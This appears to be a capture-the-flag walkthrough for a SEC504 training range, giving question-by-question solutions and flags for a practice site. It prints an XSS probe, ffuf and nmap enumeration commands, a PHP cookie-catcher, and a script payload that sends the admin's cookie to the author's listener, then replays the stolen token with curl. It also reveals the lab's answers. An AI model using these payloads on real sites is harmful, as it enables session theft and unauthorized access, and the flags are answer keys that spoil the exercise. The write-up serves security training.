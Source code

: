 # SEC504 Ranges.io CTF - Walkthrough

This document contains my step-by-step solutions for the **www.issplaylist.com** section challenges.  
Each section includes **question**, **steps taken**, and **answer/flag**.

---

## Contact
**Question:**  
Interact with the contact form on the www.issplaylist.com website. What is the flag returned as the reference number?

**Steps Taken:**
I navigated to <https://www.issplaylist.com/contact.html> and typed `Mike` into the First Name box. After clicking **Submit**, the page responded with a reference number, which was the flag I needed.  

**Flag:**  
`NetWars{ReceivedSubmission}`

---

## Vulnerability Discovery
**Question:**  
Explore the Contact page on the www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.

**Steps Taken:**
At first, I tested for **command injection** in every form field. Nothing interesting came back, so I moved on. Next, I decided to test for **Cross-Site Scripting (XSS)**, since it made the most sense for a form like this. I submitted the following payload:  

```html
Mike<script>alert(1)</script>
```

The result was immediate — a popup alert appeared, confirming an XSS vulnerability.  

**Answer:**  
`Cross-Site Scripting`

---

## Information Gathering
**Question:**  
Identify the hidden page on the www.issplaylist.com server. Submit the page name (XXXXX.html).

**Steps Taken:**
I launched **ffuf** to brute force potential directories:  

```bash
ffuf -w common.txt -u https://www.issplaylist.com/FUZZ -s -mc 200,301
```

The results showed: `admin`, `images`, `index.html`, and `res`. Testing them manually:  
- `images` and `res` returned Forbidden  
- `index.html` loaded fine (the main page)  
- `admin` loaded successfully, revealing the hidden admin page  

As an alternative, I knew I could also use Nmap’s `http-enum` script:  

```bash
nmap -n --script=http-enum www.issplaylist.com
```

But ffuf already confirmed the answer.  

**Answer:**  
`admin.html`

---

## Cookie Theft
**Question:**  
Administrators for the www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?

**Steps Taken:**
I leveraged the XSS vulnerability I had already discovered. To capture the admin’s cookie, I used a PHP cookie catcher script, modified from the course lab:  

```php
<?php
// Build log entry
$data = [
    'GET'     => $_GET,
    'POST'    => $_POST,
    'headers' => function_exists('getallheaders') ? getallheaders() : [],
];

// Convert to JSON
$json = json_encode($data, JSON_UNESCAPED_SLASHES | JSON_PRETTY_PRINT);

// Append to cookies.log
file_put_contents("cookies.log", $json . PHP_EOL, FILE_APPEND);

// Print to terminal if STDOUT is defined
if (defined('STDOUT')) {
    fwrite(STDOUT, $json . PHP_EOL);
}

// Send no content back to browser
http_response_code(204);
exit;
?>
```

I started a listener with:  

```bash
php -S 0.0.0.0:8080
```

Then, I submitted this payload into the First Name field:  

```html
Mike<script>document.location="http://10.142.148.3:8080/" + document.cookie</script>
```

When the admin later opened the submissions, their authentication cookie was sent to my listener. In my test, the cookie log showed:  

```
/authtoken=0f186582606b62965d90e772e76a8a5620b11af9
```

This confirmed the cookie name was `authtoken`.  

**Answer:**  
`authtoken`

---

## Unauthorized Access
**Question:**  
Use the stolen cookie to access the admin page. Submit the flag.

**Steps Taken:**
I took the stolen cookie and used it with `curl` to access the hidden admin page:  

```bash
curl -k -b "authtoken=0f186582606b62965d90e772e76a8a5620b11af9" https://www.issplaylist.com/admin.html | grep -i NetWars
```

The output included the flag:  

**Flag:**  
`NetWars{CongratsAdmin}`

